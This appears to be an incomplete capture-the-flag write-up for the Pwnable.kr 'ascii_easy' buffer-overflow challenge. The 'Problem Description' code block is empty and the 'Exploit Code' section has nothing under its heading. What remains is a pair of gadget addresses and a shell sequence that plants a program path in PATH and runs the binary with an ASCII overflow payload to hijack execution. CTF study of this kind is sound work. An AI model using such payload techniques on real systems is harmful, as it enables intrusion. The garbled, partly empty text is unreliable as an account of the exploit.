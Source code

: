 # Pwnable.kr ascii_easy CTF Writeup

## Problem Description  
The code provided for the challenge is as follows:

```c
```

## Analysis  

```asm
0x00b8a7f : nop; execlp
0x000973c : 63 00 (c /0)

export PATH="$PATH:/tmp/dalal"
./ascii_easy 'AAAAAAAAAAAAAAAAAAAABBBB~jaU<wVU<wVU'
```
## Exploit Code
